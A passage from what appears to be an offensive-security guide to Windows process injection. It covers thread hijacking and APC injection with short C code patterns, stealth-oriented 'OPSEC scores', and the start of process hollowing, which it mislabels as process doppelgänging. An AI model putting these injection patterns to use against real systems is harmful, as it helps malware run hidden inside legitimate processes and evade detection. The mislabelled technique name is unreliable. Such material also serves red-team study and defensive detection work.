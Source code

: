 ### 2. Thread Hijacking

**Method**: Suspend existing thread, modify RIP to point to shellcode, resume.

**Advantages**:
- No CreateRemoteThread (less suspicious)
- Uses existing threads (stealthier)

**Disadvantages**:
- Thread instability if not restored properly
- Still requires RWX memory

**OPSEC Score**: 5/10

**Code Pattern**:
```c
HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, targetThreadID);
SuspendThread(hThread);

CONTEXT ctx;
ctx.ContextFlags = CONTEXT_FULL;
GetThreadContext(hThread, &ctx);

// Modify RIP to shellcode address
ctx.Rip = (DWORD64)pRemoteBuffer;
SetThreadContext(hThread, &ctx);

ResumeThread(hThread);
```

### 3. APC Injection

**Method**: Queue APC (Asynchronous Procedure Call) to existing thread in alertable state.

**Advantages**:
- No new threads created
- Stealthy execution

**Disadvantages**:
- Target thread must enter alertable state (SleepEx, WaitForSingleObjectEx)
- May take time to execute

**OPSEC Score**: 6/10

**Code Pattern**:
```c
HANDLE hThread = OpenThread(THREAD_SET_CONTEXT, FALSE, targetThreadID);
QueueUserAPC((PAPCFUNC)pRemoteBuffer, hThread, NULL);
```

### 4. Process Hollowing (Process Doppelgänging)

**Method**: Create suspended process, unmap original image, map malicious image.

**Advantages**:
- Process appears legitimate in Task Manager
- No RWX memory allocations
